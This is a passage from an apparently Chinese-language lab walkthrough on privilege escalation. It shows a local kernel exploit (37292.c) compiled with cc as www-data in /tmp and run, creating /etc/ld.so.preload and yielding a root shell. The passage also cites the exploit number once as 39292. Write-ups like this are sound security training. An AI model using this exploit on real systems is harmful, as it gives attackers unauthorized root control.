 
## 提权

这里直接用的内核提权39292
但是有个要注意的点
靶机没有gcc环境
要使用cc编译
所以直接下载下来的37292.c要改一点地方
![](images/2024-04-03-22-08-23.png)
```bash
www-data@ubuntu:/tmp$ cc 37292.c -o test
cc 37292.c -o test
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
www-data@ubuntu:/tmp$ chmod +x test
chmod +x test
www-data@ubuntu:/tmp$ ./test
./test
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root
# cd /root
```